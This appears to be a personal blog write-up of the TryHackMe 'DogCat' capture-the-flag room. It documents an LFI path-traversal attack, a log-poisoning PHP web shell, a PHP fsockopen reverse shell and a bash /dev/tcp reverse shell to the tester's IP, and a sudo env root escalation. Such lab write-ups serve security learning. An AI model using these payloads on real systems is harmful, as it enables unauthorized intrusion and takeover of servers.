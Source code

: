 ```yaml
---
layout: post
title:  "THM Write-Up DogCat"
summary: Write-Up to the TryHackMe Machine DogCat
author: utnelson
date: '2022-02-14 11:17:23'
category: ['thm','write-up', 'medium']
thumbnail: \assets\img\posts\dogcat\title.png
keywords: dogcat, thm, box, easy, write-up, walkthrough, lfi, path, traversal, docker
permalink: /blog/write-up-dogcat/
---
```

Machine: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Enumeration

```console
root@machine:~$ nmap 10.10.64.63 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 22:30 CET
Nmap scan report for localhost (10.10.64.63)
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports open. So lets check 80 with the running http server. 

<div class="text-center">
    <img src="\assets\img\posts\dogcat\page.PNG" class="rounded img-fluid">   
</div>
<br/>

The url looks interesting. `?view=cat`. Seems to be anything with LFI (local file inclusion). We could try to modify it with:    
`http://IPAdress/view=../../../../../../../etc/passwd`

We get an error:
<div class="text-center">
    <img src="\assets\img\posts\dogcat\onlydogcat.PNG" class="rounded img-fluid">   
</div>
<br/>

Just add `dog` in front the string. So it looks like this: `http://IPAdress/?view=dog/../../../../../../../etc/passwd`

A new error appears:

<div class="text-center">
    <img src="\assets\img\posts\dogcat\newerror.PNG" class="rounded img-fluid">   
</div>
<br/>

On [Hacktricks PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) I found something interesting. With the string: `php://filter/convert.base64-encode/resource=dog` we can see the source code of the `dog.php` in base64 encoding.

For decoding I used my running burpsuite.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\decodedog.PNG" class="rounded img-fluid">   
</div>
<br/>

```php
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```

This code prints just a random dog picture with every request. We can also look into the `php` code of the index.php. That is may more interesting.
Modify the string as follow: `?view=php://filter/convert.base64-encode/resource=dog/../index` and decode it again.

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Nice! We can modify the `ext` variable and set it to none. So we can our payload from the first try again.
`http://IPAdress/?view=dog/../../../../../../../etc/passwd&ext=`

It's working. We can see the "/passwd" file. With burpsuite we have also a pretty good format.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\passwd.png" class="rounded img-fluid">   
</div>
<br/>

From my enumeration I know this is running on a apache server. We may can look for log files.
We finaly can find the at `/var/log/apache2/access.log`

<div class="text-center">
    <img src="\assets\img\posts\dogcat\log.PNG" class="rounded img-fluid">   
</div>
<br/>

Our User-Agent Header is beeing inside the logfile. We may can modify it that it will be executed with our main.php file. We try at first:
`<?php system("ls")?>` Ooops. This endend a few times with fatal error and I was not able to view the logs again. So I have restartet the machine more than 3 times.  
Finally the User-Agent:`<?php system($_GET['cmd']);?>` and the GET string `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls` was fine and i was able to see the RCE.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\rce.PNG" class="rounded img-fluid">   
</div>
<br/>

So we just need to form a payload for a php reverse shell. I tried something new with the shell generator. [Generator](https://www.revshells.com/)

`php -r '$sock=fsockopen("10.14.20.70",9001);shell_exec("/bin/sh <&3 >&3 2>&3");'`

URL encoded: `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.14.20.70",9001)%3bshell_exec("/bin/sh+<%263+>%263+2>%263")%3b'`
We need to URL encode this string. In burpsuite pretty easy with `ctrl+u`. Set a listener up with and boom shell:

```console
root@machine:~$ nc -lvp 9001
listening on [any] 9001 ...
connect to [10.14.20.70] from localhost [10.10.21.32] 59000
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```
There we can find our first flag: `flag.php`

Flag 2 right next to it in the upper directory so only `cd..`

## Escalation

First try `sudo -l`

```console
sudo -l
Matching Defaults entries for www-data on 9e566ca216b3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 9e566ca216b3:
    (root) NOPASSWD: /usr/bin/env
```

Quick look to GTFObins and we find the way we can spawn a root shell.

`sudo env /bin/sh`

Boom root shell. Find the flag at `/root/flag3.txt`

## Escape docker

echo "/bin/sh -i >& /dev/tcp/10.14.20.70/9002 0>&1" >> backup.sh